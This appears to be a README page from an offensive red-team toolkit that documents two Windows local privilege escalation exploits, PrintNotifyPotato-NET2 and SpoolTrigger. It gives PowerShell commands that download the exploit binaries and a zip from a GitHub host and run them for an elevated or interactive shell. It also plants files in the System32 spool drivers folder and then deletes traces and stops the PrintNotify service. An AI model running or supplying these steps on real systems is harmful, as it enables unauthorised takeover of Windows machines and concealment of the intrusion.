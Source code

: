 ## PrintNotifyPotato-NET2.exe

|Function name|Description|Privileges|Screenshot|
|---|---|---|---|
|PrintNotifyPotato-NET2|Local privilege escalation|Administrator|[PrintNotifyPotato](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/LPE.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/PrintNotifyPotato-NET2.exe" -OutFile "PrintNotifyPotato-NET2.exe"
```

<br />

**execute:**
```powershell
.\PrintNotifyPotato-NET2.exe whoami
.\PrintNotifyPotato-NET2.exe cmd interactive
```

<br />

## SpoolTrigger.ps1

|Function name|Description|Privileges|Screenshot|Credits|
|---|---|---|---|---|
|SpoolTrigger|Local privilege escalation|Administrator|[SpoolTrigger](https://user-images.githubusercontent.com/23490060/222120179-ae2e2b14-fe3e-453e-a494-dcf1c84dd270.jpg)|@404death|

<br />

<b><i>pre-requesites checks:</i></b>
```powershell
#Make sure PrintNotify service exists
[bool](Get-Service -Name "PrintNotify")

#Make sure System32\spool\drivers\x64\3 exists
[bool](Test-Path -Path "$Env:WINDIR\System32\spool\drivers\x64\3\")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")
```

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/bin.zip" -OutFile "$Env:TMP\bin.zip"
```

<br />

**execute:**
> **Warning**: Administrator privileges required to perform actions.
```powershell
# Expand ZIP archive
Expand-Archive -Path "$Env:TMP\bin.Zip" -DestinationPath "$Env:TMP" -Force
cd "$Env:TMP\bin"

# Move files to comrrespondent directory
Move-Item -Path "*" -Destination "$Env:WINDIR\System32\spool\drivers\x64\3\" -Force
cd "$Env:WINDIR\System32\spool\drivers\x64\3\bin"
.\SpoolTrigger.ps1

# Check privs
whoami

# CleanUp
Stop-Service -Name "PrintNotify" -Force
Remove-Item -Path "$Env:TMP\bin" -Force
Remove-Item -Path "$Env:TMP\bin.zip" -Force
Remove-Item -Path "$Env:WINDIR\System32\spool\drivers\x64\3\bin" -Force
```
